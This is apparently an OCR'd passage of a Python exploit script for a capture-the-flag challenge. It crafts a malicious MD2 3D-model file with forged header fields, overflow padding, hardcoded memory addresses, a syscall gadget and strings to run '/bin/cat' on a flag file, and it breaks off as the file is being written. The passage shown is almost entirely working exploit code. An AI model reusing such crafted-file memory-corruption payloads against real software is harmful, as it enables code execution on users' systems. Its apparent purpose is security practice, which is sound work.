```python
pay += p64(syscall)
'''

pay += "A"*(0x2080 - len(pay))
#pay += b"B"*0x1000
pay += p32(844121161) # magic
pay += p32(8) # version
pay += p32(0) # skinWidth
pay += p32(0) # skinHeight
pay += p32(0x6000) # frameSize
pay += p32(0) # numSkins
pay += p32(1) # numVertices
pay += p32(1) # numTexcoords
pay += p32(1) # numTriangles
pay += p32(0) # numGlcommands
pay += p32(2) # numFrames
pay += p32(0) # offsetSkins
pay += p32(0) # offsetTexcoords
pay += p32(0) # offsetTriangles
pay += p32(0x3000) # offsetFrames
pay += p32(0) # offsetGlCommands
pay += p32(0) # offsetEnd
pay += b"\x00"*36
pay += p64(0x8B0290) # frame
pay += p64(0x8B30C0) # triangles
pay += p64(0x8B30C0) # textureCoords
pay += "\x00"*28
pay += p64(0) # index
pay += "D"*0x24
pay += "E"*0x8 # sfp
pay += "F"*0x8 # ret


md2header = b""
md2header += p32(844121161) # magic
md2header += p32(8) # version
md2header += p32(0) # skinWidth
md2header += p32(0) # skinHeight
md2header += p32(len(pay)) # frameSize
md2header += p32(0) # numSkins
md2header += p32(1) # numVertices
md2header += p32(1) # numTexcoords
md2header += p32(1) # numTriangles
md2header += p32(0) # numGlcommands
md2header += p32(1) # numFrames
md2header += p32(0) # offsetSkins
md2header += p32(0) # offsetTexcoords
md2header += p32(0) # offsetTriangles
md2header += p32(68) # offsetFrames
md2header += p32(0) # offsetGlCommands
md2header += p32(0) # offsetEnd
md2header += pay

md2header += p64(0x00000000005a881c) # 0x8B0298
md2header += '/bin/cat' + p64(0) # 0x8B02a0
md2header += './flag_f8acf1b8ff0ec6bc82cff333029535e7' + '\x00'*1 # 0x8B02a8

md2header += p64(0x8B0298) # 0x8B02b8
md2header += p64(0x8b02a8) # 0x8B02b8
md2header += p64(0) # 0x8B02b8


with open("exp2.md2", "wb") as f:
```